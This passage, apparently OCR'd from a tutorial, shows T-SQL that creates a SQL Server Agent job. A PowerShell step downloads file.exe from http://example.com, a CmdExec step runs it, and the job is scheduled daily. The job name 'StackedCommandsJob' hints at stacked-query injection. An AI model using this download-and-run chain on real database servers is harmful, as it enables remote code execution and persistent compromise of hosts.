 3. **Add a PowerShell Step**:
   - Next, add a PowerShell step that downloads a file from the web.

   ```sql
   -- Add a PowerShell step to the job
   EXEC sp_add_jobstep 
       @job_name = N'StackedCommandsJob', 
       @step_name = N'PowerShell Step', 
       @subsystem = N'PowerShell', 
       @command = N'Invoke-WebRequest -Uri "http://example.com/file.exe" -OutFile "C:\Tools\file.exe"', 
       @retry_attempts = 0, 
       @retry_interval = 0;
   ```

4. **Add a CmdExec Step**:
   - Finally, add a CmdExec step that runs the downloaded file.

   ```sql
   -- Add a CmdExec step to the job
   EXEC sp_add_jobstep 
       @job_name = N'StackedCommandsJob', 
       @step_name = N'CmdExec Step', 
       @subsystem = N'CMDEXEC', 
       @command = N'C:\Tools\file.exe', 
       @retry_attempts = 0, 
       @retry_interval = 0;
   ```

5. **Schedule the Job**:
   - You can schedule the job to run automatically or start it manually.

   ```sql
   -- Schedule the job to run daily at midnight
   EXEC sp_add_jobschedule 
       @job_name = N'StackedCommandsJob', 
       @name = N'DailySchedule', 
       @freq_type = 4, 
       @freq_interval = 1, 
       @active_start_time = 000000;
   ```

6. **Start the Job Manually**:
   - If you want to start the job immediately, you can execute the following:

   ```sql
   -- Start the job manually
   EXEC sp_start_job @job_name = N'StackedCommandsJob';
   ```

